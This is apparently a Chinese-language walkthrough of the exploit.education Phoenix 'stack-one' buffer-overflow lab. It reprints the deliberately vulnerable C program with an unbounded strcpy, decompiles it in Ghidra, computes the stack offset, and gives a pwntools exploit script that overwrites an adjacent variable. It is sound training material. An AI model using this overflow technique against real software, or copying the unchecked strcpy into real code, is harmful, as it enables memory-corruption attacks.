






# STACK ONE

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level can be found at /opt/phoenix/<architecture>/stack-one

**Hints**

- `man ascii` can tell you what the hexadecimal characters are.
- Having troubles? How does the [endianness](https://en.wikipedia.org/wiki/Endianness) of the architecture affect the layout of how variables are laid out?

### Source code

```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

官方页面内容

要求我们把 `changeme` 变量修改成指定值

关于栈溢出 变量覆盖 在 `stack-zero` 我已经有过比较详细的介绍

日常 黑盒审计

没有 IDA 可以用这两个

 NSA 的 Ghidra

主页：https://ghidra-sre.org/

或者 radare2 的 GUI 版 cutter（新版的自带 Ghidra 插件，可以使用 Ghidra 的反汇编）

主页：https://github.com/radareorg/cutter


我现在用 Ghidra



main 函数反汇编：

```c

void main(int param_1,long param_2)

{
  char local_58 [64];
  uint local_18;
  
  puts("Welcome to phoenix/stack-one, brought to you by https://exploit.education");
  if (param_1 < 2) {
    errx(1,"specify an argument, to be copied into the \"buffer\"");
  }
  local_18 = 0;
  strcpy(local_58,*(char **)(param_2 + 8));
  if (local_18 == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  }
  else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",(ulong)local_18);
  }
                      /* WARNING: Subroutine does not return */
  exit(0);
}

```

可以看到 挑战成功的条件是 

`local_18 == 0x496c5962`

看反编译窗口：



`local_18` 位于栈上 `rbp-0x18` 的位置

ok，找漏洞点

看到 main 函数的参数



按照常识，我们的` main` 函数原型应该是这样写的

```c
int main(int argc, char *argv[])
```

上面的第二个参数是个 `long` 我们手动修改一下

右键 -> Retype Variable 

改成  `char **`

把变量名也改一下

右键 -> Rename Variable 



=现在可以看到，修改后的

漏洞点就在

```c
strcpy(local_58,argv[1]);
```

从命令行参数获取输入，复制进 `local_58` ，注意 `strcpy` 是不会有长度限制的而  `local_58`  是一个 `char` 数组，理论上它可以容纳 `64` 个 `char`，但是有时候因为对齐的因素，分配给的空间要比指定值大  

看反编译窗口：


`local_58` 位于栈上 `rbp-0x0x58` 的位置

而我们要覆盖的 `local_18` 位于栈上 `rbp-0x18` 的位置

记住，栈是 `从高到低` 增长的，所以我们写入 `local_58` 是可以覆盖到  `local_18` 的

好了，现在我们知道他们两个相距  `0x58 - 0x18` 我们要填充 `0x40` Bytes 任意字符（我说的是 Bytes 不是字符数，因为汉字不是一个 Bytes ，填充 0x40 个汉字那就 GG 了） 才能覆盖到  `local_18` ，然后我们把  `local_18` 的期望值填上去，这里很重要的一是，我们不是填 `0x496c5962` 像是：`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA496c5962`，这样会把 `496c5962` 解析成字符串，我们用 pwntools 的 p64() 函数把 `0x496c5962` 打包成二进制数据

我现在演示一下



可以看到 A 后面并不是 0x496c5962

好了现在直接利用吧

exploit：

```python
from pwn import *
exp = "A" * 0x40
exp += p64(0x496c5962)
print(exp)
#AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbYlI
```



pwn !